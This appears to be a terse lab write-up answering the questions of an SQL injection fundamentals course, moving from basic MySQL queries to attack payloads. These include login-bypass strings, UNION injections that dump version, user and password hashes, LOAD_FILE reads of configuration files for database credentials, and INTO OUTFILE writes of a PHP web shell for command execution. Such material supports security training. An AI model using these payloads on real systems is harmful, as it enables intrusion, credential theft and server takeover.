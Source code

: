## Intro to MySQL

>**Q. Connect to the database using the MySQL client from the command line. Use the 'show databases;' command to list databases in the DBMS. What is the name of the first database?**

mysql -u root -h 94.237.59.206 -P 35744 -p

SHOW DATABASES;

## SQL Statements

>**Q. What is the department number for the 'Development' department?**

SHOW DATABASES;

USE employees;

SHOW TABLES;

SELECT * FROM departments;

## Query Results

>**Q. What is the last name of the employee whose first name starts with "Bar" AND who was hired on 1990-01-01?**

SELECT * FROM employees WHERE first_name LIKE 'Bar%' AND hire_date = '1990-01-01';

## SQL Operators

>**Q. In the 'titles' table, what is the number of records WHERE the employee number is greater than 10000 OR their title does NOT contain 'engineer'?**

SELECT * FROM titles;

SELECT * FROM titles WHERE emp_no > 10000 OR title !='engineer';



## Subverting Query Logic

>**Q. Try to log in as the user 'tom'. What is the flag value shown after you successfully log in?**

tom' OR '1'='1

## Using Comments

>**Q. Login as the user with the id 5 to get the flag.**

user' OR id=5)--    

## Union Clause

>**Q. Connect to the above MySQL server with the 'mysql' tool, and find the number of records returned when doing a 'Union' of all records in the 'employees' table and all records in the 'departments' table.**

mysql -u root -h 94.237.54.69 -P 59629 -p

SHOW DATABASES;

USE employees;

SHOW TABLES;

SELECT * FROM employees;

SELECT * FROM departments; 

SELECT dept_no FROM departments UNION SELECT emp_no FROM employees;

## Union Injection

>**Q. Use a Union injection to get the result of 'user()'**

' order by 1-- -

es' UNION select 1,2,3,4-- -

' UNION select 1,@@version,3,4-- -

es' UNION select 1,user(),3,4-- -

## Database Enumeration

>**Q. What is the password hash for 'newuser' stored in the 'users' table in the 'ilfreight' database?**

cn' UNION select 1, username, password, 4 from users-- -

## Reading Files

>**Q. We see in the above PHP code that '$conn' is not defined, so it must be imported using the PHP include command. Check the imported page to obtain the database password.**

cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -

cn' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- -

## Writing Files

>**Q. Find the flag by using a webshell.**

cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -

cn' union select "",'<?php system(ls); ?>', "", "" into outfile '/var/www/html/shell1.php'-- -

cn' union select "",'<?php system("dir /var/www"); ?>', "", "" into outfile '/var/www/html/shell1.php'-- -

cn' union select "",'<?php system("cat /var/www/flag.txt"); ?>', "", "" into outfile '/var/www/html/shell10.php'-- -

## Skills Assessment - SQL Injection Fundamentals

>**Q. Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system. Submit the contents of the flag as your answer.**

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master

' or 1=1 limit 1 -- -+

cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -

cn' union select 1,2,'file written successfully!',3,4 into outfile '/var/www/html/dashboard/proof.txt'-- -

cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -

cn' union select "","",'<?php system(ls); ?>', "", "" into outfile '/var/www/html/dashboard/shell1.php'-- -

cn' union select "","",'<?php system("dir /"); ?>', "", "" into outfile '/var/www/html/dashboard/shell6.php'-- -

cn' union select "","",'<?php system("cat /flag_....txt"); ?>', "", "" into outfile '/var/www/html/dashboard/shell8.php'-- -
